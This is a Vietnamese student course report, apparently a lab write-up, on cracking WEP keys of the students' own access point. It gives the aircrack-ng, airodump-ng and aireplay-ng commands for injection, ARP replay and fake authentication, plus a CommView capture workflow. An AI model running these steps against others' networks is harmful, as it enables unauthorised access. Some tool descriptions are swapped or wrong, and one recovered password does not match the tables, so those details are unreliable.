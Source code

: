 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: CRACKING WEP**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **1. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Adapter: TL-WN722N-v2
* Máy ảo: Kali linux-v5.4
#### **2. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **3. Mô Hình**
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image001.png)

### **B. Thực hiện**
#### **I.Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, kismet để crack password**
**Các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
#airmon-ng\
Bước 2: Bật chế độ monitor cho wireless adapter\
#airmon-ng start wlan0\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (sử dụng airodump hoặc kismet)\
#airodump-ng wlan0mon \
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
#aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
#aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon\
Bước 7: Fake authentication với AP\
#aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length 64bits và 900000 đối với key length 128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
#Aircrack-ng [tên file capture đã bắt ở trên]\
**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
#airmon-ng\
![sa](https://drive.google.com/uc?id=1uw_2dOEvhjbrrw39FNjiHV-W9HovPF3k)\
Bước 2: Bật chế độ monitor cho wireless adapter\
#airmon-ng start wlan0\
![sa](https://drive.google.com/uc?id=1klvZX7Vj4l27zTVmuFzCbkknZJ36qB5p)\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (Có thể dùng airodump hoặc kismet)\
#airodump-ng wlan0mon \
![sa](https://drive.google.com/uc?id=1e9V3GUB15kzb4qrJDE94RguO1HMLOdPK)\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
#aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon\
![sa](https://drive.google.com/uc?id=1uxm-idFgvZ5wYasNEURXoABnXALi00dR)\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon\
![sa](https://drive.google.com/uc?id=1TE5gIzEYoWYW751QPy6p0rQitV_cZrUB)\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
#aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon\
![sa](https://drive.google.com/uc?id=1XDJcZXvDwVbhu2oRqu5ueBXxtbrMnjCQ)\
Bước 7: Fake authentication với AP\
#aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon\
![sa](https://drive.google.com/uc?id=1vmrTDRr4ZRH7GWkaXZvIz61xFFGcrrRd)\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
#Aircrack-ng WEPcrack-01.cap\
![sa](https://drive.google.com/uc?id=1Ar-9jMWRtuKf14EEidEA6OFoufx6MUy_)\
![sa](https://drive.google.com/uc?id=1_LqFv5njNnMt8-5ANaBGzK4tWKCBUKLO)\
* ==> tìm được key : _*KietKhe.@/;
**Làm tương tự với 3 trường hợp còn lại:**
Kết quả:
![sa](https://drive.google.com/uc?id=10MKiqhKt1L1r4MzCQqTGlo3_HmK3f5wD)
![sa](https://drive.google.com/uc?id=1T7wnhI2tkVsIPaS9STrJIO5X4ysK682F)
![sa](https://drive.google.com/uc?id=1rrWt5BUhcwyHifX16vF7ZrZg2WqlhwOr)\
#### **II.Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|


**Chi tiết thực hiện:**\
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:\
![sa](https://drive.google.com/uc?id=1Q116yxgW5UeJnRkT7PAjwhSzP3LsDaRo)\
Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel\
![sa](https://drive.google.com/uc?id=1FnH8ipAHtR8JKaZiZOozRRV2uQ-JnYTj)\
Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password\
![sa](https://drive.google.com/uc?id=1Ld98sXavr3T1i0Bs37KSsLlLvadcgeyh)\
Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)\
![sa](https://drive.google.com/uc?id=147xuSDynLMEtdPk6-v_E_qBasmfqQm7V)\
Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.\
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**\
![sa](https://drive.google.com/uc?id=1P7_Tc3PPnm4OXm_3MQsnxc9ak3KRZ2QS)\
Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap\
![sa](https://drive.google.com/uc?id=1eWIPG86Zxlmq-5vUNfPFJH3rgTkI7v40)\
Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] \
![sa](https://drive.google.com/uc?id=1HzWajrfP8gYguY2NiI9NfT4OVIL4qQ4P)\
==> Đã tìm được password (  _*MraK12.@#/;  )\
**Làm tương tự với trường hợp còn lại. Kết quả:**\
![sa](https://drive.google.com/uc?id=1rMJasjiPx1NEbXk3CdFRk6SdQnqnh45X)\

